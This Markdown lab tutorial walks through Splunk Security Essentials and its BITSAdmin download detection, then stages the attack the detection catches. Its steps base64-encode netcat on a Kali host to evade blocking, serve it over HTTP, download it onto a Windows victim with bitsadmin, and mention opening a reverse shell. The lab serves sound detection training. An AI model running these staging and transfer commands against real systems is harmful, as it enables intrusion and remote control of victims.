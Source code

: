 ### Splunk Security Essentials
1. Let's get familiar with **Splunk Security Essentials**. Explore security use cases and discover security content to start address threats and challenges.
But before you go, make sure you have **Splunk Common Information Model (CIM)** app installed (if not, install, pls). 

Apps > Find More Apps 
![](attachments/2.5-CIM_install.png)

---
2. Install Splunk Security Essentials

Apps > Find More Apps
![](attachments/2.5-SSE_install.png)

3. Open Splunk Security Essentials
Click on Find Content > Security Detection Basics > Security Monitoring

![](attachments/2.5-SSE_open.png)


![](attachments/2.5-SSE_open2.png)  



4. Find **BITSAdmin Download File** and open it

![](attachments/2.5-SSE_open_bitsadmin.png)

Here you get a description about the query which identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object (for example a malware stager, or other payload).  



![](attachments/2.5-SSE_bitsadmin1.png)  


 
And you can check the query (or modify - not recommended at first time) and run it to get some interesting result.

![](attachments/2.5-SSE_bitsadmin2.png)  


If you see similar (red exclamation marks) just click "Add Macro" one by one.
![](attachments/2.5-SSE_bitsadmin_error.png)  


5. Lets go to the Kali, login via ssh, and prepare the attacker host. We need a webserver to host our malware/payload or "only" a reverse shell capable tool. To do this, we should install a python based http server (or similar).

```bash
pip install rangehttpserver
```

Create a directory to store our tools for the upcomings.
```bash
mkdir attack
cd attack
```

We would like to use the netcat to open a a reverse shell to our attacker machine, so our goal is to transfer the netcat to the victim machine. Copy the netcat utility (windows version) to this newly created folder.
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

To avoid blocking our malicious transfer encode(base64) and rename the infamous/famous netcat binary.

```bash
base64 nc.exe > nc64
```

Now we are ready to host our tool by our new http server, so lets start it from the attack directory where our nc64 is. 

```bash
python -m RangeHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

6. Switch to the victim machine (Win10, ip: 198.18.133.10), and start downloading the prepared nc64 by bitsadmin (mostly because if we managed to get into a system by an exploitation most of the times we only have a shell for the first steps)

```bash
bitsadmin /transfer n http://198.18.24.100:8080/nc64 c:\temp\myshell64
```


7. Lets check the tracks of previous operation by the Splunk Security Essentials bitsadmin donwloads detection query. Do the search, examine the details and click on the data to get more information about the event. 
![](attachments/2.5-SSE_bitsadmin3.png)


Optional: now we have a base64 encoded netcat on the wictim host, we can decode, rename and use it to open a reverse shell to our kali.
